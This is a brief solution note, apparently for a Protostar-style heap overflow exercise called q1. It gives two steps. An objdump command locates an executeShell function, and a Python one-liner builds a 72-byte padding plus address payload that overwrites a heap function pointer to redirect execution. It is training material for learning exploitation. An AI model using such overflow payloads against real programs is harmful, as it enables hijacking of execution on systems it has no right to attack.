 #q1:
1. objdump -t q1 | grep executeShell -> get address of executeShell function
	eg address = 0804852b 
2. ./q1 `python -c 'print "A"*72+"\x2b\x85\x04\x08"'` -> changes the address of "Failed" stored in heap allocated to "f".

ref: https://github.com/z3tta/Exploit-Exercises-Protostar/blob/master/13-Heap0.md

